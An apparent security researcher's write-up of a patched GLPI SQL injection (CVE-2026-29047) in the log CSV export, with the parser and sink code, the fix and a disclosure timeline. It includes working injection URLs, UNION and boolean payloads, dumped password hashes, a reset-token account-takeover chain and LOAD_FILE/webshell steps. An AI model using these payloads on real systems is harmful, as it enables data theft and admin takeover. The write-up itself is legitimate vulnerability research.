


## an operator the frontend never sends

GLPI's history tab has a filter box. You narrow a log view to a field, a user, a date, and the frontend serializes that into a `filter[...]` request. The only operators it ever emits are the empty string, which means "match this", and `NOT`, which means "don't". Two values. A closed set.

The parser that reads those filters does not know the set is closed. It runs a regex, takes whatever sits in the operator position, and trusts it. GLPI's SQL builder happens to reserve one operator name for its own use, `RAW`, the escape hatch it uses internally to drop a computed expression like `DATEDIFF(...)` into a query without quoting it. The parser will hand you that escape hatch if you ask for it by name, and the export endpoint will run the result as a low-privilege user.

That is the whole bug: a value the frontend treats as one-of-two is actually one-of-anything, and one of the anything values is a direct line into the SQL string.

## the data flow, from one HTTP parameter to the WHERE clause

<!-- capture: GLPI log history filter UI with the RAW payload typed into the filter box, save as assets/img/posts/cve-2026-29047-filter-ui.png -->



The endpoint is `front/log/export.php`. It takes an `itemtype` and `id`, loads that item's history, applies the filters, and streams the result back as CSV. Reaching it needs the `logs` READ right, which brings us to who actually has that right.

## the lowest profile that qualifies is Read-Only

GLPI ships eight default profiles. Four of them carry `logs` READ:

- Super-Admin
- Admin
- Supervisor
- **Read-Only**

Read-Only is exactly what it sounds like: a profile meant to look and never touch. It is the lowest-privilege default that can reach the sink. Technician, Hotliner, Observer, and Self-Service cannot. So the honest privilege bar here is "an account that was deliberately given the weakest role in the system", and from there this is a full database read plus an admin takeover. That gap between the role's intent and its reach is the reason the severity argument later in this post lands where it does.

## the parser: an unvalidated operator

`src/Log.php`, inside `convertFiltersValuesToSqlCriteria()`, splits each filter value with one regex:

```php
// src/Log.php:1354
if (1 === preg_match('/^(?P<key>.+):(?P<operator>.*):(?P<values>.+)$/', $var, $matches)) {
    $key      = $matches['key'];
    $operator = $matches['operator'];   // never checked against a whitelist
    $values   = $matches['values'];
    ...
    $affected_field_crit[$index][$operator][$key] = $values;
}
```

`(?P<operator>.*)` is `.*`. It matches anything between the two colons, including nothing, including `NOT`, including `RAW`. When the operator is non-empty it becomes the array key one level above the filter key. Send `PAYLOAD:RAW:1` and you produce:

```php
['RAW' => ['PAYLOAD' => '1']]
```

which is precisely the shape the query builder reads as "this is a RAW expression, splice it in".

## the sink: RAW concatenates the key

`src/DBmysqlIterator.php`, the criteria walker `analyseCrit()`:

```php
// src/DBmysqlIterator.php:574
} elseif ($name === 'RAW') {
    $key   = key($value);
    $value = current($value);
    $ret  .= '((' . $key . ') ' . $this->analyseCriterion($value) . ')';
} else {
    $ret .= DBmysql::quoteName($name) . ' ' . $this->analyseCriterion($value);
}
```

Look at the two branches next to each other. The `else` branch, the one every normal column takes, runs the name through `DBmysql::quoteName()`, which backtick-wraps it into a safe identifier. The `RAW` branch does not. `$key` goes into the SQL string by string concatenation, no quoting, no escaping, no allowlist. `$key` is our filter key, fully attacker-controlled. That is the injection.

RAW exists for GLPI's own code, where the key is a constant the developer typed. It was never meant to be selectable from an HTTP parameter. The parser bridges the gap the query builder assumed could not exist.

## two ways in, one sink

The operator path is the obvious one. There is a second shape that reaches the same branch without ever setting the operator to `RAW`, and it matters because it changes what a correct patch has to cover.

**Vector 1, the operator (`:RAW:`).** Put `RAW` in the operator position:

```
GET /front/log/export.php?itemtype=User&id=2&filter[affected_fields][0]=1)+IN+('1')))))%20OR%201=1--%20-:RAW:1
```

**Vector 2, the array index (`affected_fields[RAW]`).** PHP lets you choose the array key from the request. Name it `RAW` and the parser produces a top-level `RAW` criterion even though the parsed operator is empty:

```
GET /front/log/export.php?itemtype=User&id=2&filter[affected_fields][RAW]=1)+IN+('1'))))%20OR%201=1--%20-::1
```

Same sink, one fewer closing paren because the wrapper depth differs. The reason to care: a patch that only whitelists the parsed operator kills Vector 1 and leaves Vector 2 alive. The real fix had to close both, and it did, by casting the array index to `int` so a string key like `RAW` can never survive. More on that below.

## the payload, paren by paren

The RAW branch is four characters of glue, `'((' . $key . ') '`, so the exact string you get out depends entirely on what the surrounding query builder has already opened. With `$value = '1'`, `analyseCriterion('1')` renders `= '1'`, so the RAW branch alone emits:

```
(( <your key> ) = '1')
```

and that fragment is nested inside the log query's own `WHERE items_id = '2' AND itemtype = 'User' AND ( ... )` wrapper. So the job of the key is not to be clever, it is to be balanced: close every paren the builder opened, drop your `UNION` or `OR` at the top level, then comment the trailing `) = '1')` and whatever else follows. That is what the ugly prefix is doing:

```
1) IN ('1')))))  UNION SELECT 99999, ... -- -
└┬┘ └────┬─────┘ └──────┬───────┘ └┬┘
 │       │              │          └ comment out the builder's tail
 │       │              └ your row, surfaced in the CSV
 │       └ close out the RAW wrapper and the query's AND(...) nesting
 └ satisfy the '((key)' opener so the paren count is legal
```

The patched build makes this visible by accident. Once Vector 2 is backtick-quoted, the server logs the whole constructed query, which is the clearest picture of where the injection sits:

```
Unknown column '1) IN ('1')))) OR 1=1-- -' in 'WHERE' (1054) in SQL query:
  SELECT * FROM `glpi_logs`
  WHERE `items_id` = '2' AND `itemtype` = 'User'
  AND (((`1) IN ('1')))) OR 1=1-- -` IN ('1'))))
  ORDER BY `id` DESC
```

Read that WHERE clause without the backticks and you are looking at the exact shape the unpatched build executed, three open parens of builder nesting that the prefix has to unwind before `OR`/`UNION` lands clean.

## the boolean oracle, then the whole database

The minimal proof is a boolean. A true condition returns every log row, a false one returns none:

```
filter[affected_fields][0]=1) IN ('1')))))  OR 1=1-- -:RAW:1   -> rows
filter[affected_fields][0]=1) IN ('1')))))  OR 1=2-- -:RAW:1   -> nothing
```

But this sink sits in front of a CSV export with a fixed column count, which means UNION, which means no need to grind bits. Twelve columns, marker `99999` in column 1, data in column 6:

```
filter[affected_fields][0]=1) IN ('1'))))) UNION SELECT 99999,'','','','',user(),'','','','','',''-- -:RAW:1
```

One request returns the database user in the CSV. Swap `user()` for any subquery and the export becomes a database dump. The PoC walks credentials, tokens, LDAP and SMTP secrets, schema, and MariaDB user hashes in a couple dozen requests:

```
============================================================
  DATABASE SERVER
============================================================
  User:             glpi@172.18.0.3
  Version:          11.8.6-MariaDB-ubu2404
  Database:         glpi
  FILE privilege:   NO
  Tables in DB:     442
------------------------------------------------------------
  GLPI USER CREDENTIALS
------------------------------------------------------------
  ID    Username             Password Hash
  ----- -------------------- ------------------------------------------------------------
  2     glpi                 $2y$12$w8xH9sJj8VnEfVHB8afP5.vP0ZX0ye6XrilBZqSmEM6.Kkq9wPG/u
  4     tech                 $2y$12$TMVjux51yVudq/VqzEvC.eQb42ec/guiX4wuGlMNewwngc1gsZPpm
  5     normal               $2y$12$r0fBBj.T3HUMiazVAr1X4.BK9KZkIoG1.xr5cZFdlt.9Koqe1Vt0i
  ...
```

<!-- capture: full poc_log_sqli.py run against a lab GLPI showing DB dump + takeover, save as assets/img/posts/cve-2026-29047-poc-run.png -->

Confidentiality is settled at that point: every GLPI bcrypt hash, LDAP bind DN and encrypted password, SMTP and OAuth and proxy secrets, API tokens, all user PII, the full schema. If the database account happens to hold FILE (it does not by default, the shipped `glpi` user has `ALL PRIVILEGES ON glpi.*` and nothing global), `LOAD_FILE()` reads `config/glpicrypt.key` and every one of those encrypted secrets decrypts. That is a conditional bonus, not the core finding.

## the chain: Read-Only to Super-Admin

A database read is not automatically an integrity impact. This one becomes one because of where GLPI parks password reset tokens.



GLPI is a helpdesk. It sends mail for everything, so it queues outbound notifications in `glpi_queuednotifications`, body and all, in plaintext. A password reset email is a notification. Its body contains the reset token. So:

1. From the public `front/lostpassword.php`, trigger a reset for the Super-Admin's email. GLPI queues the mail.
2. Read the token straight out of the queue with the SQLi:

   ```sql
   SELECT SUBSTRING(body_text, LOCATE('password_forget_token=', body_text)+22, 40)
   FROM glpi_queuednotifications
   WHERE name LIKE '%Forgotten%' ORDER BY id DESC LIMIT 1
   ```
3. Visit the reset link with the extracted token, set a new password, log in as admin.

Run end to end, the token comes back and the login lands:

```
============================================================
  ACCOUNT TAKEOVER
============================================================
  Notifications: ENABLED
  Target:        glpi (admin@glpi.local)
  [1] Triggering password reset
      Reset email triggered
  [2] Extracting reset token from notification queue
      Token: 68757f4b21315dcb19dfe13f38b04c236b9e3842
  [3] Changing password
      Password changed to: Pwned123!!
  [4] Verifying login
  [+] LOGIN SUCCESSFUL as glpi
  [+] FULL ACCOUNT TAKEOVER CONFIRMED
```

The chain needs two things that are on by default in production: notifications enabled (`use_notifications=1`), which any deployment that sends ticket mail has, and the target having an email set, which every real admin does. It is not a lab-only path.

## the second chain: FILE to every decrypted secret

The dump hands you GLPI's encrypted fields, LDAP bind passwords, SMTP creds, OAuth secrets, API tokens, but encrypted. GLPI wraps them with `sodium_crypto_aead_xchacha20poly1305_ietf_encrypt()` and stores `base64(nonce[24] || ciphertext)`. The key that undoes all of it lives in one file, `config/glpicrypt.key`, 32 bytes. So the ceiling of this bug depends on one MySQL grant.

The default `glpi` database user has `ALL PRIVILEGES ON glpi.*` and no global FILE, so `LOAD_FILE()` returns NULL and this chain is closed. But plenty of installs point GLPI at a `root` connection or a user provisioned with FILE, and where the database and the web server share a host (every single-box deployment), that one grant turns the SQLi into arbitrary file read:

```sql
SELECT HEX(LOAD_FILE('/var/www/glpi/config/glpicrypt.key'))
```

With the key in hand, every encrypted field from the dump decrypts offline: LDAP bind password to directory compromise, `smtp_passwd` and OAuth refresh tokens to mailbox access, `config_db.php` to the raw database credentials. Same FILE grant, `INTO DUMPFILE`, and a shared docroot gets you a webshell and RCE. The PoC probes the four common `glpicrypt.key` paths automatically and reports whether the grant is there, so the operator sees immediately whether an install sits at "full read" or "full read plus secret decryption". The bug is C:H either way; FILE just decides how far past GLPI the blast goes.

## the control, because a SQLi you cannot toggle is a guess

The boolean oracle only counts if you can turn it off. Every confirmation ran the pair in the same session:

```
... OR 1=1-- -   -> rows returned      (true)
... OR 1=2-- -   -> zero rows          (false)
```

If `1=2` had also returned rows, the "signal" would be the export ignoring the injected clause, and the whole thing would be noise. It returns nothing. The bit is real and it flips on demand. The UNION side has its own control: the PoC selects a known sentinel (`SELECT 0x474c50495f4f4b`, "GLPI_OK") and refuses to proceed unless that exact marker comes back in the CSV, which rules out a coincidental row count doing the talking.

## severity

I scored it **8.1**, `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N`.

- **PR:L**, not PR:H. The lowest default profile that reaches the sink is Read-Only, which is the weakest role GLPI ships. Scoring this PR:H would say the injection requires a privileged user, and it does not.
- **C:H** is the full database read. **I:H** is the proven Super-Admin takeover through the reset-token chain. **A:N**, no availability impact demonstrated.

The published numbers spread out around that: NVD recalculated it to **8.8** (they also read the impact as high), while the GitHub CNA entry landed at **7.2** by scoring `PR:H`. The single metric everyone disagreed on is PR, and the Read-Only profile is why I hold that it is Low. For calibration, GLPI's own history on comparable authenticated SQLi runs high: CVE-2023-43813 at 8.8, CVE-2024-27096 at 7.7.

Affected: **10.0.0 through 10.0.23** and **11.0.0 through 11.0.5**. Fixed in **10.0.24** and **11.0.6**, released 2026-03-03.

## the fix, from the patch

The patch is `+5 / -1` across two files, and it closes both vectors at the source instead of trying to sanitize the sink.

`src/Log.php`, inside `convertFiltersValuesToSqlCriteria()`:

```diff
 foreach ($filters['affected_fields'] as $index => $affected_field) {
+    $index = (int) $index;
     $affected_field_crit[$index] = [];
     ...
             $operator = $matches['operator'];
+            if (!empty($operator) && $operator != 'NOT') {
+                throw new RuntimeException('Invalid operator: ' . $operator);
+            }
```

Two lines, two vectors. `(int) $index` turns the string key `RAW` into `0`, so Vector 2 can never place a `RAW` criterion, it just becomes an ordinary indexed field whose payload then gets backtick-quoted by `quoteName()` and rejected by MySQL as an unknown column. The operator whitelist throws before any SQL is built the moment the parsed operator is anything but empty or `NOT`, which kills Vector 1 outright:

```
Uncaught RuntimeException: "Invalid operator: RAW" at Log.php:1359
  ./src/Glpi/Csv/LogCsvExport.php:85   Log::convertFiltersValuesToSqlCriteria()
  ./front/log/export.php:65            Glpi\Csv\CsvResponse::output()
```

The export endpoint also tightened its authorization from `canViewItem()` to `can($id, READ)`. That is defense in depth, not the fix; it would not have stopped the injection on its own.

I verified both branches. Against patched 11.0.6 and 10.0.23, the classic vector dies at the PHP layer with the `RuntimeException` before a query runs, and the index vector dies at the MySQL layer backtick-quoted into a nonexistent column. Neither can rebuild the boolean oracle, so the whole chain, dump and takeover included, is dead. The fix is byte-for-byte identical across the two branches.

One thing the patch left for later, and I flagged it as such: the RAW branch in `DBmysqlIterator::analyseCrit()` still concatenates its key without validation. It is unreachable from user input now that the parser is fixed, but the sink itself is unchanged, so if a future code path ever routes attacker data into a RAW key again, the door is right there. Input-side fix is sufficient today; hardening the sink would be the belt to the suspenders.

## the variant hunt: why only Log

The regex is the whole reason this is a bug, so the obvious next question is who else parses filters the same way. GLPI has four classes with a `convertFiltersValuesToSqlCriteria()` method: `Log`, `Item_Process`, `Item_Environment`, and `Consumable`. The other three build their criteria with a plain key-value map, no `key:operator:values` regex, so there is no operator position for an attacker to occupy and no path to `RAW`. Only `Log` runs the regex, and only `Log` is exploitable. Worth stating explicitly, because "same method name, different implementation" is exactly the kind of thing a grep flags and a patch author has to rule out one by one.

## disclosure

- **Reported** to GLPI as an authenticated SQLi in the log export, both vectors.
- **2026-03-03**: fixed in **10.0.24** and **11.0.6**. I re-ran the PoC against both patched branches: the classic vector dies with `RuntimeException: Invalid operator: RAW` before any SQL runs, the index vector gets backtick-quoted into an unknown column. Boolean oracle gone, chain dead.
- **2026-04-03**: advisory **GHSA-3m49-qf92-vccr** published, **CVE-2026-29047** assigned.
- NVD status is Analyzed. If you run 10.0.x below 10.0.24 or 11.0.x below 11.0.6, a Read-Only account is enough to own the box; upgrade.

## the lesson

A query builder that reserves a bypass operator for internal use is only safe while nothing external can name it. GLPI's RAW was that operator, and one `.*` in a filter regex is all it took to name it from the internet. The pattern to grep for is not "unescaped SQL", it is any place a serialized filter, sort, or criteria structure lets the request choose a *structural* position, an operator, an array key, a field path, rather than just a value. The value was always going to be escaped. The structure was assumed trusted.

## references

- [GHSA-3m49-qf92-vccr](https://github.com/glpi-project/glpi/security/advisories/GHSA-3m49-qf92-vccr)
- [CVE-2026-29047](https://nvd.nist.gov/vuln/detail/CVE-2026-29047)
- [GLPI 10.0.24 / 11.0.6 release](https://github.com/glpi-project/glpi/releases/tag/11.0.6)
- [CWE-89: SQL Injection](https://cwe.mitre.org/data/definitions/89.html)
- [CVE-2023-43813: prior GLPI authenticated SQLi (8.8)](https://nvd.nist.gov/vuln/detail/CVE-2023-43813)
